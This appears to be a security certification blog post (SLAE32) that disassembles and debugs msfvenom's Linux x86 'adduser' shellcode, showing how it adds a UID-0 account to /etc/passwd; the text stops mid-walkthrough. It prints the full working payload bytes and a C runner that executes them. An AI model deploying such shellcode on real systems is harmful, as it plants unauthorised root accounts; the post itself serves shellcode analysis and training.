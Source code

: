 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor" 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

We have to note two things here. The first is the 3 push dword of the ```open``` syscall that is most certainly the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/analysis_3.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>

Well done, we have find the file path opened by ```open``` syscall, it's /etc/passwd, obiovusly in reverse order beacause we are in little endian and with a double slah to make the number of the letters divisible by 4.<br>
The second is the chunk of code just after the ```call dword 0x53```, it seems only text instead of assembly instruction and as we will see, this code would never be executed.<br>
Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
The first syscall as said is the ```setgid``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
```stepi``` to the ```int 0x80``` call
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
and check the first 4 register with a hook-stop procedure

```gdb
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	xor    ecx,ecx
   0x0804a042 <+2>:	mov    ebx,ecx
   0x0804a044 <+4>:	push   0x46
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	int    0x80
   0x0804a049 <+9>:	push   0x5
   0x0804a04b <+11>:	pop    eax
   0x0804a04c <+12>:	xor    ecx,ecx
   0x0804a04e <+14>:	push   ecx
   0x0804a04f <+15>:	push   0x64777373
   0x0804a054 <+20>:	push   0x61702f2f
   0x0804a059 <+25>:	push   0x6374652f
   0x0804a05e <+30>:	mov    ebx,esp
   0x0804a060 <+32>:	inc    ecx
   0x0804a061 <+33>:	mov    ch,0x4
   0x0804a063 <+35>:	int    0x80
   0x0804a065 <+37>:	xchg   ebx,eax
   0x0804a066 <+38>:	call   0x804a093 <code+83>
   0x0804a06b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804a06c <+44>:	gs je  0x804a0d0
   0x0804a06f <+47>:	jae    0x804a0e1
   0x0804a071 <+49>:	ins    BYTE PTR es:[edi],dx
   0x0804a072 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x0804a073 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804a07b <+59>:	jae    0x804a0e7
   0x0804a07d <+61>:	xor    al,0x70
   0x0804a07f <+63>:	xor    al,0x49
   0x0804a081 <+65>:	push   edx
   0x0804a082 <+66>:	arpl   WORD PTR [edx],di
   0x0804a084 <+68>:	xor    BYTE PTR [edx],bh
   0x0804a086 <+70>:	xor    BYTE PTR [edx],bh
   0x0804a088 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804a08a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804a08c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804a08f <+79>:	das    
   0x0804a090 <+80>:	jae    0x804a0fa
   0x0804a092 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x0804a095 <+85>:	push   ecx
   0x0804a096 <+86>:	cld    
   0x0804a097 <+87>:	push   0x4
   0x0804a099 <+89>:	pop    eax
   0x0804a09a <+90>:	int    0x80
   0x0804a09c <+92>:	push   0x1
   0x0804a09e <+94>:	pop    eax
   0x0804a09f <+95>:	int    0x80
   0x0804a0a1 <+97>:	add    BYTE PTR [eax],al

Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>



